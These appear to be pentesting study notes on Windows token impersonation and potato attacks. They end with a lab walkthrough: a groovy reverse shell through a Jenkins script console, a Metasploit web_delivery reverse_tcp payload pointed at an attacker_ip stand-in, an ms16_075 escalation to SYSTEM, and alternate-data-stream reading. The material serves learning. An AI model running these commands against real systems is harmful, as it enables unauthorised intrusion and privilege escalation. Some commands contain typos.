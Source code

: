 # Token Impersonation and Potato Attacks

## Token Impersonation 

Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think it as cookies for computers 

**Two Types:** 

- Delegate - Created for logging into a machine or using Remote Desktop 
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script 

![image](images/ti1.png)

![image](images/ti2.png)

![image](images/ti3.png)

**Alright, but what if a Domain Admin token was available?** 

![image](images/ti4.png)

![image](images/ti5.png)

![image](images/ti6.png)

![image](images/ti7.png)

To get to know about the impersonation privileges we can use 

![image](images/ti8.png)

![image](images/ti9.png)

here the ImpersonatePrivilege is enabled which could able to escalate to high privileged users 

Resources for [Impersonation Privileges](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-impersonation-privileges)

if SeAssignPrimaryToken is enabled it could vulnerable to the potato attacks 

## Potato Attack 

Resources for [Potato Attack](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

The idea behind this vulnerability is simple to describe at a high level:

- Trick the “NT AUTHORITY\SYSTEM” account into authenticating via NTLM to a TCP endpoint we control.

- Man-in-the-middle this authentication attempt (NTLM relay) to locally negotiate a security token for the “NT AUTHORITY\SYSTEM” account. This is done through a series of Windows API calls.

- Impersonate the token we have just negotiated. This can only be done if the attackers current account has the privilege to impersonate security tokens. This is usually true of most service accounts and not true of most user-level accounts.

So if we have service account running with the privileges to impersonate security token it is vulnerable to [juicy-potato attack](https://github.com/ohpe/juicy-potato)

In nmap result we can see there is http protocol running in the port 80 and port 50000. In port 135 RPC is running and In port 445 SMB is running.

In website in the port 50000 we found a directory askjeevs using directory busting and this directory running the jenkins. In jenkins we have script console which run groovy script so we are uploading a [groovy reverse shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

By uploading the groovy reverse shell we got the reverse shell and start the enumeration 

```
whoami  

// SeImpersonatePrivilege is enabled 
whoami /priv 

// save the systeminfo and use windows-exploit-suggester and found it is vulnerable potato attacks 
systeminfo 

// To perform potato attack metasploit framework is easier 
msfconsole 
use exploit/multi/script/web_delivery 
options 
show targets 

// the target contains python,php,powershell,etc and we set it to powershell
set target 2 
set payload windows/meterpreter/reverse_tcp 
set lhost attacker_ip 
set srvhost victim_ip 
run

// we got the script so we are going paste the script generated in the reverse shell that make the shell got in the metasploit framework
session 1 

// now we got the shell in the msfconsole 
getuid
getprivs 
run post/multi/recon/local_exploit_suggester 

// now we are going to do potato attack 
use exploit/windows/local/ms16_075_reflection 
background 
options 
set payload windows/x64/meterpreter/reverse_tcp
run 

// now we got the shell 
load incognito 
list_tokens -u 

// we have impersonate tokens (for system)
imporsonate_token "NT AUTHORITY\SYSTEM"
shell 

// now we are system user 
whoami
nt authority\system 
```

here data is hidden in [alternate data stream](https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams), it is used to hide a data within a file 

```
// to see the alternate stream file 
dir /R 

// to read the file 
more < file_name 
```
